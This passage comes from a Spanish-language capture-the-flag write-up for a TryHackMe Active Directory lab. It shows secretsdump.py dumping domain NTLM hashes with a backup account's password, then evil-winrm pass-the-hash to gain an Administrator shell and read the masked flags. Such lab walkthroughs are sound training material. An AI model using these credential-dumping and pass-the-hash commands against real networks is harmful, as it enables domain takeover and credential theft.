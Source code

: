 ### Herramienta

```bash
secretsdump.py spookysec.local/backup:backup2517860@10.10.7.146
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
...
```

### Resultado
Hash NTLM del `Administrator` obtenido:
```
0e0363213e37b94221497260b0bcb4fc
```
---

## Parte 7: Acceso con Pass-The-Hash
### Teoría
El protocolo **NTLM** permite autenticación utilizando directamente el **hash NTLM**, sin necesidad de conocer la contraseña en texto plano. Esto permite a un atacante autenticarse mediante técnicas como **Pass-the-Hash**, siempre que el servicio de destino (como **WinRM**) no esté configurado para evitarlo.
### Herramienta
```bash
evil-winrm -i 10.10.7.146 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

### Resultado
Se obtuvo **una shell interactiva como `Administrator`** sobre la máquina objetivo. Durante la sesión, se recorrieron perfiles de usuarios y se identificaron múltiples archivos sensibles con contenido representativo del compromiso.
#### Archivos encontrados:
- **C:\Users\svc-admin\Desktop\user.txt.txt**
```powershell
  *Evil-WinRM* PS C:\Users\svc-admin\Desktop> type user.txt.txt
  TryHackMe{***************}
```
- **C:\Users\backup\Desktop\PrivEsc.txt**
```powershell
  *Evil-WinRM* PS C:\Users\backup\Desktop> type PrivEsc.txt
  TryHackMe{***************}
```
- **C:\Users\Administrator\Desktop\root.txt**
```powershell
  *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
  TryHackMe{***********************}
```
---

